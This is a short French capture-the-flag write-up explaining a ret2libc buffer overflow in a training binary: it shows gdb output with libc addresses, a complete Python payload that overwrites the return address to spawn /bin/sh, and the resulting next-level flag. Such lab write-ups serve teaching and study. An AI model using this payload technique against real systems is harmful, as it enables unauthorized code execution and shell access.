 ## GET Flag

Le binaire est composé de 3 fonctions : `main`, `verify_user_name`, `verify_user_pass`

Dans `verify_user_name` il réalise un `strncmp` avec `dat_wil` et l'entrée utilisateur.
Dans `verify_user_pass` il réalise un `strncmp` avec `admin` et l'entrée utilisateur, mais dans tous les cas, il met "nope, incorrect password...".

Il est donc possible de faire un buffer overflow avec une attaque `ret2libc`.

Il nous faut donc de récupérer l'adresse de `_exit`, `system` et `/bin/sh`

```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$ p _exit
$2 = {<text variable, no debug info>} 0xf7ee45c4 <_exit>
gdb-peda$ searchmem "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
```

Il est donc possible de mettre ces adresses aux bons endroits : `python -c 'print "dat_wil" + "\n" + "" + 80 * "A" + "\xd0\xae\xe6\xf7"  + "\xc4\x45\xee\xf7" + "\xec\x97\xf8\xf7"' > /tmp/level01`
Pour le mot de passe nous allons écrire `80 A` suivit de l'adresse de `system` puis de `_exit` et de `"/bin/sh"`

Il va donc executer `system`, mettre "/bin/sh" en params puis jump sur `_exit` lorsque le shell va quitter (éviter le segfault).

### Flag

```
level02
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
